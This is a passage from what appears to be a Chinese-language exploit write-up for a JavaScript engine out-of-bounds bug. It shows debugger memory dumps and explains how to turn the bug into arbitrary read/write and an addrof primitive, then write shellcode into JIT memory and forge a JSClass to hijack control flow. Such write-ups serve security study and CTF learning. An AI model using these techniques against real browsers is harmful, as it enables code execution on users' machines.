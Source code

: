 ```
[+]: 2 96
[+]: 3 96
[+]: 4 96
[+]: 5 96
[+]: 6 256
[+]: 7 96
[+]: 8 96
[+]: 9 96
[+]: 10 96
[+]: 11 96
[+]: 12 96
[+]: 13 96
[+]: 14 96
[+]: 15 96
```

到了这里，我们已经有了越界读写的能力了，后续的漏洞利用都比较通用化，基本的流程如下
- 1 构造 任意地址读写
- 2 往 `jit` 写入shellcode
- 3 伪造`JSClass` ，修改`addProperty` 字段劫持控制流
### <a class="reference-link" name="%E6%9E%84%E9%80%A0%E4%BB%BB%E6%84%8F%E5%9C%B0%E5%9D%80%E8%AF%BB%E5%86%99"></a>构造任意地址读写

有了数组越界，构造任意地址读写就不难了, 首先泄露出`0x00001064f249c230` 这个地址，`0x00001064f249c230&lt;&lt;1 -0x40` 可以得到`buf[7]` 的起始地址，后续改写这个地址就可以任意地址读写了

```
// buf[7]
//                //group                shape
0x20c9e4938420: 0x00002746d7073a30      0x000020c9e4927330
                //slots
0x20c9e4938430: 0x0000000000000000      0x00007fffeb5170c0
                //0x20c9e4938460&gt;&gt;1
0x20c9e4938440: 0x00001064f249c230      0xfff8800000000100// buf[7].byteLength
0x20c9e4938450: 0xfffa000000000000      0xfff8800000000000
0x20c9e4938460: 0x0000000000000000      0x0000000000000000
```

这里还需要构造一个`addrof`, 当执行`buf[7].leak = `{``}`` 的时候，它会放在前面`slots` 处，把`data buffer` 改成`0x00007fffcfcfb600&gt;&gt;1` 然后读`buf[7]` 就可以泄露出 对象的地址了

```
pwndbg&gt; x/20gx 0x112c38f204c0
0x112c38f204c0: 0x0000160cb7b59a30      0x0000112c38f22380
                //slots
0x112c38f204d0: 0x00007fffcfcfb600      0x00007fffeb5170c0
                //data buffer
0x112c38f204e0: 0x000008961c790280      0xfff8800000000060
0x112c38f204f0: 0xfffe38a368b3d180      0xfff8800000000000
0x112c38f20500: 0x0000000000000000      0x0000000000000000
0x112c38f20510: 0x0000000000000000      0x0000000000000000
//.....
pwndbg&gt; x/10gx 0x00007fffcfcfb600
0x7fffcfcfb600: 0xfffe112c38f2f300      0x0000000000000000
0x7fffcfcfb610: 0x0000000000000000      0x0000000000000000
0x7fffcfcfb620: 0x0000000000000000      0x0000000000000000
0x7fffcfcfb630: 0x0000000000000000      0x0000000000000000
```


[+]: 0 96
[+]: 1 96